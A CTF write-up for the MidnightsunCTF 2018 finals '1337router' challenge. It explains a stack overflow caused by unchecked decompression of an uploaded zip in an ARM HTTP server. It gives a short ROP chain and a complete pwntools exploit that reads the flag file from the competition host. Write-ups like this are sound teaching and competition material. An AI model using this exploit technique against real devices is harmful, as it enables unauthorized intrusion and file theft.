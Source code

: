 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF finals 2018 1337router
tags: 
    - kowu
---
```


1337router was an arm executable, aslr disabled, implementing a HTTP server. The vulnerability was that we could upload a zip file (wich contained a httpd.conf). The zip got deflated afterwards. The zip file had a size limitation of 512 bytes. Of course the deflated size was not checked and it got deflated on the stack. Its time for ROPgadget.


I used a function of the executable to help me in reading any file. It was meant to read a html file and send it back as a HTTP response. It had two parameters. Buffer (in r1) and a path to the file (in r0). As there was no aslr buffer could just point to a static position. r0 was a little bit more difficult as the stack had randomization. However gdb told me that r4 pointed into the stack at a controllable position, so lets just move r4 into r0. We end up with a simple ropchain.

```
0x849ec pop{r1, pc};
0x691ec mov r0, r4; pop {r4, r5, r6, r7, r8, pc};
0x10934 sendresponse(buf, filepath);
```

the final dirty code.

```python
from pwn import *
import zipfile

r = remote("34.254.34.57", 5555)


def buildreq(content):
    return "POST /page?=conf HTTP/1.1\r\n" + \
           "Host: 34.254.34.57:5555\r\n" + \
           "Connection: keep-alive\r\n" + \
           "Content-Length: " + str(191 + len(content)) + "\r\n" + \
           "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOVOtoTifyI9clR75\r\n" + \
           "User-Agent: Mozilla/5.0\r\n" + \
           "Accept: text/html\r\n\r\n" + \
           "------WebKitFormBoundaryOVOtoTifyI9clR75\r\n" + \
           "Content-Disposition: form-data; name=\"config\"; filename=\"config.zip\"\r\n" + \
           "Content-Type: application/zip\r\n\r\n" + \
           content + \
           "------WebKitFormBoundaryOVOtoTifyI9clR75--\r\n\r\n"


def sploit():
    fname = "flag"
    with zipfile.ZipFile("file.zip", "w", compression=zipfile.ZIP_DEFLATED) as zip:
        zip.writestr(
            "httpd.conf", "A" * 524 + struct.pack(
            "<IIIIIIIII", 0x849ec, 0xaef4c, 0x691ec, 0, 0, 0, 0, 0, 0x10934) + "B" * 8 + fname + '\x00')
    with open("file.zip", "rb") as f:
        content = f.read()
    r.send(buildreq(content))
    r.interactive()


if __name__ == '__main__':
    sploit()

```
